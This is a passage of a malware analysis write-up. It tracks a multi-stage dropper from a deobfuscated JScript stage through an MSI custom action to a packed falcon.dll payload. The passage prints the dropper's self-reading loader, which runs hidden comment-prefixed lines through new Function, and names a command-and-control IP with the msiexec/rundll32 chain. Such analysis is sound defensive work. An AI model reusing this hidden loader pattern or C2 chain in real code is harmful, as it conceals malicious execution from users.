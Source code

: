 ```js
network.RemoveNetworkDrive(letter, true, true);
} catch (e) {
}
} else {
WScript.Echo("Failed.");
}


var fsObj = new ActiveXObject("Scripting.FileSystemObject");
var selfPath = WScript.ScriptFullName;

try {
    if (fsObj.FileExists(selfPath)) {
        var selfFile = fsObj.OpenTextFile(selfPath, 1);
        var codeToExecute = "";
        while (!selfFile.AtEndOfStream) {
            var currentLine = selfFile.ReadLine();
            if (currentLine.indexOf("////") === 0) {
                codeToExecute += currentLine.substring(4) + "\n";
            }
        }
        selfFile.Close();

        if (codeToExecute) {
            var executeFunction = new Function(codeToExecute); 
            executeFunction();
        }
    }
} catch (error) {

}
```

the unobfuscated dropper is now ready for analysis. some indicators of compromise (IoCs) to look for are `45.95.11.134:80` connecting to `\share\` folder, and using `msiexec.exe` to grab `qual.msi` from the above C2 server.

Orca (provided by the Windows SDK) can be used to analyze or edit `qual.msi`. head over to `CustomAction` to view the `LaunchFile` target. this launches a file: `rundll32.exe`. its export entry is `vgml` and it's stored at `LocalAppDataFolder\stat\falcon.dll`.

you could also use UniExtract to extract `qual.msi`. it will create the directory `LocalAppDataFolder\stat\falcon.dll`. i copied the DLL to a separate directory for analysis. this commences stage 3.

## stage 3: `falcon.dll`

this is a packed DLL that contains another DLL inside it, which is the main payload.

you can use x64dbg, IDA, or Binary Ninja to analyze the DLL and payload. i used a combo of IDA and Binary Ninja.

open `rundll32.exe`. remove all breakpoints and change the command line: remove the old path and add the new path (`falcon.dll`) and restart.

